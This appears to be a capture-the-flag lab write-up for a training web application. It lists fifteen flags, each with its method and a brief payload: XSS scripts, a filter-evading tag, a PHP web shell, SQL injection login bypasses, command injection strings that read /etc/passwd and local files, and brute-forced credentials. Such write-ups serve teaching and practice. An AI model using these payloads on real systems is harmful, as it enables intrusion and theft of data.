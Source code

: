 # Project-2-Ctfd

CTF Challenge Write-up Document

Flag 1:
Method: Cross-site scripting (XSS)
Payload: <script>alert("")</script>

![Flag 1](images/flag1.png)

Flag 2:
Method: XSS with malformed script tags
Payload: <SCRIPscriptT>alert(")</SCRIPscriptT>

![Flag 2](images/flag2.png)


Flag 3:
Method: Cross-site scripting (XSS)
Payload: <script>alert("")</script>

![Flag 3](images/flag3.png)


Flag 4:
Method: Intercepting HTTP requests and responses using Burp Suite
Action: Used Burp Suite on About Rekall page and then sent to response

![Flag 4](images/flag4.png)

Flag 5:
Method: File upload vulnerability leading to remote code execution
Payload: <?php $command = $_GET['cmd']; echo system($command); ?>

![Flag 5](images/flag5.png)

Flag 6:
Method: File upload vulnerability leading to remote code execution (Similar to Flag 5)
Payload: Similar PHP code used in Flag 5 to execute commands

![Flag 6](images/flag6.png)

Flag 7:
Method: SQL Injection
Payload: login ' OR '1'='1' -- password ' OR '1'='1' --

![Flag 7](images/flag7.png)

Flag 8:
Method: Admin login bypass
Action: Used admin username and password to login

![Flag 8](images/flag8.png)

Flag 9:
Method: Information leakage through improperly secured robots.txt file
Action: Accessed /robots.txt to retrieve the flag

![Flag 9](images/flag9.png)

Flag 10:
Method: Command injection via DNS Lookup
Payload: www.example.com | cat venders.txt

![Flag 10](images/flag10.png)

Flag 11:
Method: Direct access to restricted files
Action: Accessed /networking.php directly to obtain the flag

![Flag 11](images/flag11.png)

Flag 12:
Method: Brute force attack
Credentials Discovered: melina:melina

![Flag 12](images/flag12.png)

Flag 13:
Method: Command Injection
Payload: ;system('cat /etc/passwd')

![Flag 13](images/flag13.png)

Flag 14:
Method: Unauthorized access to admin data via URL manipulation
Action: Accessed /admin_legal_data.php with the 'admin' parameter set to a specific value

![Flag 14](images/flag14.png)

Flag 15:
Method: Exploiting the Mail Server by injecting commands
Payload: www.example.com | ls -A; accessed /old_disclaimers directory after that

![Flag 15](images/flag15.png)

